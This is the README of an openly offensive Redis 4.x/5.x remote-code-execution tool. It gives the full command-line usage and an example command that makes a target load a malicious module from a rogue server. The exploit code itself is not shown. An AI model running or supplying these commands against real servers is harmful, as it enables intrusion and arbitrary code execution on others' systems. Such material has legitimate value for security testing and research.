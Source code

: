 # Redis RCE

A exploit for Redis 4.x/5.x RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

This repo is a modified version of <https://github.com/n0b0dyCN/redis-rogue-server> .
## Usage:

```
usage: redis-rce.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-f FILE]
                    [-a AUTH] [-v]

Redis 4.x/5.x RCE with RedisModules

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 21000
  -f FILE, --file FILE  RedisModules to load, default exp.so
  -a AUTH, --auth AUTH  redis password
  -v, --verbose         show more info
```

## example:
```
python redis-rce.py -r 127.0.0.1 -L 127.0.0.1 -f exp.so
```
![image](https://user-images.githubusercontent.com/55566953/136344910-e2afabce-fa9d-4995-b911-cd2cb3b7dd84.png)


